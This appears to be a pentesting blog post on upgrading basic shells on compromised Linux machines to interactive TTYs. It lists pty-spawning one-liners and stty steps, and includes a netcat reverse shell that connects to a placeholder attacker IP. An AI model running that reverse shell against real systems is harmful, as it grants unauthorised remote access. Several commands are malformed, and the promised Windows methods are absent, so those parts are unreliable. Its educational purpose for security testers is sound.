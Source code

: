 ```yaml
---
title:  Upgrading an autocomplete TTY shell on Linux and Windows: a guide for pentesters
date: 2024-11-06 10:10:00 +0700
categories: [Other]
tags: [Other, tty-shell, autocomplete]
pin: false
description: Upgrading TTY Shell
---
```


## Upgrading an autocomplete TTY shell on Linux and Windows: a guide for pentesters

### Introduction

When working with command-line interfaces on compromised machines, it is common to be limited to basic TTY shells that lack essential features like autocomplete and history. Upgrading these shells can significantly improve usability and efficiency during post-exploitation. This guide covers methods to upgrade TTY shells on both Linux and Windows targets to provide functionalities such as command history and tab completion, making them easier to work with.

### Verify installed language(s)

Before attempting to upgrade or interact with shells, it's important to verify which interpreters and shells are available on the target system. This helps determine the best approach to proceed. Here's how to check which interpreters or shells are installed:
```shell
# Check if Python is installed and its location
which python    # Output will show the path if Python 2.x is installed

# Check for Python 3 installation
which python3   # Output will show the path if Python 3.x is installed

# Verify if Bash is available
which bash      # Output will show the path if Bash is installed

# Check for PowerShell on a Linux machine (if applicable)
which pwsh      # This shows if PowerShell Core is available on Linux

# For Windows, check in Command Prompt or PowerShell for presence
where python    # Equivalent to 'which' in Windows
where python3
where bash
```
### Examples

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")';
```

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
echo os.system('/bin/bash')
```

```bash
/bin/sh -i
```

```bash
perl —e 'exec "/bin/sh";'
```

```bash
ruby: exec "/bin/sh"
```

```bash
# if python isn't installed, then use:
script /dev/null -c bash
/usr/bin/script -qc /bin/bash /dev/null
```

```bash
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.xxx.xxx 9001 >/tmp/f
```
After you have choosen one of these, to get an autocomplete shell, use:

```bash
ctrl-z 

stty raw -echo; fg

# send to background

# On attacker's machine

stty raw -echo 

stty -a 

get local number of rows & columns
fg 
# Press Enter Enter

Now you should have an autocomplete shell
```
